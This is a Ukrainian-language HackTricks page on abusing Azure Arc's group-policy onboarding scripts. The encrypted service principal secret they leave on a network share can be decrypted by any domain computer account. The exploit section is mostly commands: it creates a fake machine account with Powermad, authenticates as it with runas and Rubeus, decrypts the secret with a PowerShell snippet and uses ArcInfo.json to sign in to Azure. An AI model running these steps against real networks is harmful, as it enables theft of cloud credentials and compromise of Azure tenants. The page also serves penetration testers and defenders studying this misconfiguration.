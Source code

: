 # Az - Arc вразливий GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### Визначення проблем

Azure Arc дозволяє інтегрувати нові внутрішні сервери (приєднані до домену) в Azure Arc за допомогою методу об'єкта групової політики. Для цього Microsoft надає набір інструментів для розгортання, необхідний для ініціювання процедури приєднання. У файлі ArcEnableServerGroupPolicy.zip можна знайти такі скрипти: DeployGPO.ps1, EnableAzureArc.ps1 та AzureArcDeployment.psm1.

При виконанні скрипт DeployGPO.ps1 виконує такі дії:

1. Створює GPO для приєднання серверів Azure Arc у локальному домені.
2. Копіює скрипт приєднання EnableAzureArc.ps1 на вказану мережеву папку, створену для процесу приєднання, яка також містить пакет установника Windows.

При запуску цього скрипта адміністраторам систем потрібно надати два основні параметри: **ServicePrincipalId** та **ServicePrincipalClientSecret**. Крім того, потрібні інші параметри, такі як домен, FQDN сервера, що хостить загальний доступ, та ім'я загального доступу. Додаткові деталі, такі як ідентифікатор орендаря, група ресурсів та інша необхідна інформація також повинні бути надані скрипту.

Зашифрований секрет генерується в каталозі AzureArcDeploy на вказаному загальному доступі за допомогою шифрування DPAPI-NG. Зашифрований секрет зберігається у файлі з назвою encryptedServicePrincipalSecret. Доказ цього можна знайти у скрипті DeployGPO.ps1, де шифрування виконується шляхом виклику ProtectBase64 з $descriptor та $ServicePrincipalSecret як вхідними даними. Дескриптор складається з SID груп комп'ютерів домену та контролерів домену, що забезпечує, що ServicePrincipalSecret може бути розшифрований лише групами безпеки контролерів домену та комп'ютерів домену, як зазначено в коментарях до скрипту.
```bash
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Ми маємо наступні умови:

1. Ми успішно проникли в внутрішню мережу.
2. У нас є можливість створити або взяти під контроль обліковий запис комп'ютера в Active Directory.
3. Ми виявили мережевий ресурс, що містить каталог AzureArcDeploy.

Існує кілька методів отримання облікового запису машини в середовищі AD. Один з найпоширеніших - це експлуатація квоти облікових записів машин. Інший метод передбачає компрометацію облікового запису машини через вразливі ACL або різні інші неправильні налаштування.
```bash
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Якщо обліковий запис машини отримано, можна автентифікуватися, використовуючи цей обліковий запис. Ми можемо або використовувати команду runas.exe з прапором netonly, або використовувати pass-the-ticket з Rubeus.exe.
```bash
runas /user:fake01$ /netonly powershell
```

```bash
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Маючи TGT для нашого облікового запису комп'ютера, ми можемо використовувати наступний скрипт для розшифрування секрету службового принципала.
```bash
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Альтернативно, ми можемо використовувати [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

На цьому етапі ми можемо зібрати залишкову інформацію, необхідну для підключення до Azure з файлу ArcInfo.json, який зберігається на тому ж мережевому загальному доступі, що й файл encryptedServicePrincipalSecret. Цей файл містить деталі, такі як: TenantId, servicePrincipalClientId, ResourceGroup та інше. З цією інформацією ми можемо використовувати Azure CLI для автентифікації як скомпрометований сервісний принципал.

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
